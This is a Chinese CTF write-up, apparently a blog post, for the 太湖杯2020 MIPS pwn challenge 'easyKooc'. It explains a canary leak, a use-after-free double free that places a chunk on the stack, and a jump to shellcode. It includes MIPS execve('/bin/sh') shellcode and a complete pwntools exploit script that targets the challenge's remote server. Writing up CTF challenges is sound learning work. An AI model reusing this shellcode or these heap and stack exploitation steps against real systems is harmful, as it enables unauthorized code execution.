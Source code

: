 ```yaml
---
layout:     post
title:      太湖杯2020 easyKooc wp
subtitle:   记太湖杯2020的一道mips题
date:       2020-11-08
author:     X1ng
header-img: 太湖杯2020.jpg
catalog: true
tags:
    - 太湖杯
    - wp

---
```


看到物联网ctf，还以为会是各种裸机程序、RTOS的题目，，然而pwn好像也都是堆题or2，然而我太菜了只出了一题mips签到

菜鸡落泪

例行检查

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkhs0r2ec6j313808macq.jpg)

开启了 和canary保护，mips下不支持NX保护，所以这里的NX开不开都是一样的

用ghidra打开查看反汇编代码

![](https://tva1.sinaimg.cn/large/0081Kckwly1gky9ijt2ryj30u015o7a4.jpg)

一开始会送一个gift，就是栈的地址

可以直接看到第三个分支是向栈上写入一些内容，然后把输入的内容用printf输出一遍，动调发现有栈溢出

add函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkhs2thtscj30w80oc763.jpg)

只能申请0x38大小的chunk，在分配chunk前并不会清空chunk中的信息，然后会用write函数输出一遍chunk中的内容

delete函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkhs3011nrj30vo0hc0tm.jpg)

delete存在uaf漏洞

看到这里思路就是通过栈溢出覆盖canary低位的`\x00`来泄露canary，然后在栈上构造`0x00000041`让栈满足fastbin的分配条件，由于栈的地址已经给出，double free将chunk分配到栈上，就可以实现rop

突然发现mips上的rop跟x86下的不太一样，用来找rop的ida脚本装不好，mips指令也没有搞得很明白（菜鸡再次落泪），所以最后还是决定用申请fastbin时候只输入`\n`，利用chunk上残留的fd泄露堆地址，然后把shellcode写在堆地址中，覆盖返回地址为堆地址

但是pwntools里`shellcraft.mips.sh()`生成的shellcode太长，然后面向互联网编写exp，在[ctf-wiki](https://ctf-wiki.github.io/ctf-wiki//pwn/linux/mips/mips_rop-zh/)上找了一段0x30长度的shellcode

```python
shellcode  = b""

shellcode += b"\xff\xff\x06\x28"  # slti $a2, $zero, -1

shellcode += b"\x62\x69\x0f\x3c"  # lui $t7, 0x6962

shellcode += b"\x2f\x2f\xef\x35"  # ori $t7, $t7, 0x2f2f

shellcode += b"\xf4\xff\xaf\xaf"  # sw $t7, -0xc($sp)

shellcode += b"\x73\x68\x0e\x3c"  # lui $t6, 0x6873

shellcode += b"\x6e\x2f\xce\x35"  # ori $t6, $t6, 0x2f6e

shellcode += b"\xf8\xff\xae\xaf"  # sw $t6, -8($sp)

shellcode += b"\xfc\xff\xa0\xaf"  # sw $zero, -4($sp)

shellcode += b"\xf4\xff\xa4\x27"  # addiu $a0, $sp, -0xc

shellcode += b"\xff\xff\x05\x28"  # slti $a1, $zero, -1

shellcode += b"\xab\x0f\x02\x24"  # addiu;$v0, $zero, 0xfab

shellcode += b"\x0c\x01\x01\x01"  # syscall 0x40404
```

后面又发现一些小问题，本地io和远程io又有点不一样导致远程没办法接收堆地址，然后发现每次泄露传回来的地址都一样，才想起来alsr直接是关闭的，连堆地址都是固定的了

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkhsmd535uj30o6086jsx.jpg)

所以直接将shellcode传入第一个chunk，返回地址覆盖成`0x413008`，把canary修复后正常退出即可getshell

exp:

```python
from pwn import*
import sys

context.binary = "easyKooc"
context.arch='mips'
context.log_level = "debug"

if sys.argv[1] == "r":
    p = remote("121.36.166.138", 8890)# 
elif sys.argv[1] == "l":
    p = process(["qemu-mipsel-static", "-L", "./mipsel-linux-gnu", "./easyKooc"])
else:
    p = process(["qemu-mipsel-static", "-g", "1237", "-L", "./mipsel-linux-gnu", "./easyKooc"])


ru=lambda x:p.recvuntil(x)
rc=lambda x:p.recv(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda : p.interactive()

def add(idx,con):
	ru('your choice')
	sl('1')
	ru('todo id!')
	sl(str(idx))
	ru('content')
	sl(con)

def delete(idx):
	ru('your choice')
	sl('2')
	ru('todo id!')
	sl(str(idx))

def show(idx):
	ru('>>')
	sl('4')
	ru('show:')
	sl(str(idx))

def edit(idx,con):
	ru('your choice')
	sl('3')
	ru('leave?')
	sl(str(idx))
	ru('info:')
	sl(con)

shellcode = "\xff\xff\x06\x28"  # slti $a2, $zero, -1

shellcode += "\x62\x69\x0f\x3c"  # lui $t7, 0x6962

shellcode += "\x2f\x2f\xef\x35"  # ori $t7, $t7, 0x2f2f

shellcode += "\xf4\xff\xaf\xaf"  # sw $t7, -0xc($sp)

shellcode += "\x73\x68\x0e\x3c"  # lui $t6, 0x6873

shellcode += "\x6e\x2f\xce\x35"  # ori $t6, $t6, 0x2f6e

shellcode += "\xf8\xff\xae\xaf"  # sw $t6, -8($sp)

shellcode += "\xfc\xff\xa0\xaf"  # sw $zero, -4($sp)

shellcode += "\xf4\xff\xa4\x27"  # addiu $a0, $sp, -0xc

shellcode += "\xff\xff\x05\x28"  # slti $a1, $zero, -1

shellcode += "\xab\x0f\x02\x24"  # addiu;$v0, $zero, 0xfab

shellcode += "\x0c\x01\x01\x01"	 # syscall 0x40404


ru('motto!')
sl(shellcode)
ru('gift for you: 0x')
stack = int(p.recv(8),16)
print hex(stack)

ru('your choice')
sl('3')
ru('to leave?')
sl('a'*0x20)
ru('The message for you is ')
rc(0x21)
canary = u32(rc(3).rjust(4,'\x00'))
print hex(canary)

add(1,'a')
add(2,'b')
add(3,'c')
#add(4,'d')
delete(1)
delete(2)
delete(1)

ru('your choice')
sl('3')
ru('to leave?')
sd('a'*0x1c+p32(0)+p32(0x41))

add(4,p32(stack+0x24))
add(5,'')
#p.recvline()
#heap = u32(rc(0x3a)[0x12:0x15].rjust(4,'\x08'))
#print hex(heap) #失败的io
add(6,'')

ru('your choice')
sl('1')
ru('todo id!')
sl('7')
ru('content')
#sd('A'*4+'B'*4+'C'*4+'D'*4+'E'*4+'F'*4+'G'*4+'H'*4+'I'*4+'J'*4+'K'*4+'L'*4+'M'*4+'N'*4)
#sd('A'*4+p32(heap)+'C'*4+'D'*4+'E'*4+'F'*4+'G'*4+'H'*4+'I'*4+'J'*4+'K'*4+'L'*4+'M'*4+'N'*4)
sd('A'*4+p32(0x413008)+'C'*4+'D'*4+'E'*4+'F'*4+'G'*4+'H'*4+'I'*4+'J'*4+'K'*4+'L'*4+'M'*4+'N'*4)
ru('your choice')
sl('3')
ru('to leave?')
sd('b'*0x20+p32(canary))


ia()
```

